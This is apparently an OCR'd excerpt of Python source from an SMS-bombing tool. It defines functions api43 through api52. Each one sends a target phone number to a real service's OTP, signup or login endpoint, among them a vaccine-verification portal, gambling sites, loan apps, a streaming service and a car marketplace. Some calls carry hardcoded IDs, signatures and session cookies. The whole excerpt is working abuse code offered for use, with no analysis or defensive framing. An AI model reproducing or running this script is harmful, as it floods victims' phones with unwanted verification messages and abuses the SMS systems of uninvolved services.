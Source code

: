     def api43(phone):

        post("https://vaccine.trueid.net/vacc-verify/api/getotp",

             headers=header, json={"msisdn": phone, "function": "enroll"})

    def api44(phone):

        post("https://ufa108.ufabetcash.com/api/", headers=header,

             data=f"cmd=request_form_register_detail_check&web_account_id=36&auto_bank_group_id=1&m_name=sl&m_surname=ak&m_line=snsb1j&m_bank=4&m_account_number=8572178402&m_from=41&m_phone={phone}")

    def api45(phone):

        post("https://www.mrcash.top/h5/LoginMessage_ultimate",

             data={"phone": phone, "type": "2", "ctype": "1"})

    def api46(phone):

        post("https://www.qqmoney.ltd/jackey/sms/login", json={"appId": "5fc9ff297eb51f1196350635",

             "companyId": "5fc9ff12197278da22aff029", "mobile": phone}, headers={"Content-Type": "application/json;charset=UTF-8"})

    def api47(phone):

        post("https://www.monomax.me/api/v2/signup/telno",

             json={"password": "12345678+", "telno": phone})

    def api48(phone):

        post("https://m.pgwin168.com/api/register-otp",

             json={"brands_id": "60e4016f35119800184f34a5", "agent_register": "60e57c3b2ead950012fc5fba", "tel": phone})

    def api49(phone):

        post("https://www.som777.com/api/otp/register",

             json={"applicant": phone, "serviceName": "SOM777"})

    def api50(phone):

        post("https://www.konglor888.com/api/otp/register",

             json={"applicant": phone, "serviceName": "KONGLOR888"})

    def api51(phone):

        post("https://api.quickcash8.com/v1/login/captcha?timestamp=1636359633&sign=3a11b88fbf58615099d15639e714afcc&token=&version=2.3.2&appsFlyerId=1636346593405-2457389151564256014&platform=android&channel_str=&phone=" +

             phone+"&img_code=", headers={"Host": "api.quickcash8.com", "Connection": "Keep-Alive", "Accept": "gzip", "User-Agent": "okhttp/3.11.0"})

    def api52(phone):

        post("https://users.cars24.co.th/oauth/consumer-app/otp/"+phone+"?lang=th", headers={"accept": "application/json, text/plain, */*", "x_vehicle_type": "CAR", "cookie": "_ga=GA1.3.523508414.1640152799;_gid=GA1.3.999851247.1640152799;_fbp=fb.2.1640152801502.837786780;_gac_UA-65843992-28=1.1640152807.EAIaIQobChMIi9jVo9329AIVizArCh1bFAuMEAAYASAAEgJqA_D_BwE;_dc_gtm_UA-65843992-28=1;_hjSessionUser_2738441=eyJpZCI6IjYwMjMzZjYyLTFlMzYtNWZmMy04MjZkLTMzOTAxNTMwODQ4NyIsImNyZWF0ZWQiOjE2NDAxNTI4MDEzMDYsImV4aXN0aW5nIjp0cnVlfQ==;_hjSession_2738441=eyJpZCI6ImI4MDNlNTFkLTFiYTYtNGExZi05MGIzLTk5OWRmMjhhM2RiOCIsImNyZWF0ZWQiOjE2NDAxNjY4ODgwNDF9;_hjAbsoluteSessionInProgress=0;cto_bundle=uVFzcF8lMkYxM0hsRGxQc1M4YThaRmhHJTJGRTBtSUdwNzVuRkVldzI5QlpIYktWbnZFcUlzdDZ1ZnhMT3JqVVhFQyUyQmtGUE9MTFk5akpyVnl4ekZnZlJ4UVN3WnRHdUNyJTJGWW03aVRSeWtLc2wxTjA3QmR0THNzcjNsJTJCcEJHSXlOUzNxTVc2ZmJPaGclMkZhRUhkV3I2cTI1dXUlMkZhYnl1dyUzRCUzRA"})
